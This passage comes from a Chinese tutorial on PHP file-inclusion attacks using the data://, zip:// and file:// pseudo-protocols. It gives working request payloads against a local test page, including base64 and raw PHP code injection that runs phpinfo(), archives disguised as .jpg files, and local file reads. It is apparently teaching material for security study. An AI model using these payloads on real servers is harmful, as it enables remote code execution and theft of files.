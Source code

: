 ​		**如何利用**

```
用法1：
	?file=data:text/plain;base64,base64编码后的php代码                                                     
	GET /diy/fileinclude/includeTest.php?page=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg== HTTP/1.1                   HTTP/1.1
用法2：
	?file=data:text/plain,<?php 执行内容 ?>                                                                   
	GET /diy/fileinclude/includeTest.php?page=data:text/plain,<?php%20phpinfo();?> 
```

#### zip://伪协议

​		**利用条件**

```
allow_url_fopen=On          
allow_url_include=On 
```

​		**注意事项**

```
1、压缩为zip之后，后缀名称可以更改为jpg等其他后缀,因为只要是用zip协议压缩的格式就行，和文件后缀没有关系 （一定得是zip压缩）
2、使用zip协议，需要将#编码为%23，所需要PHP 的版本> =5.3.0，要是因为版本的问题无法将#编码成%23，可以手动把#改成%23
```

​		**用法：**

```
?file=zip://[压缩文件路径+压缩文件名]#[压缩文件内的子文件名]
```

​		**示例:**

```
page=zip://./1.zip%231.txt
page=zip://C:/phpStudy/WWW/haha/1.zip%231.txt
既可以用绝对路径,也可以用相对路径 
http://www.localhost.com/diy/fileinclude/includeTest.php?page=zip://./1.zip%231.txt
http://www.localhost.com/diy/fileinclude/includeTest.php?page=zip://./1.jpg%231.txt
http://www.localhost.com/diy/fileinclude/includeTest.php?page=zip://./phpinfo.jpg%23phpinfo.jpg
```

#### file://伪协议

​		利用条件:

```
file:// 可以用来访问本地文件系统，且不受allow_url_fopen与allow_url_include的影响。
```

​		用法

```
用法：?file=file://文件绝对路径
file://////////////文件绝对路径 可以使用多个/，只要/数目大于等于2即可
```

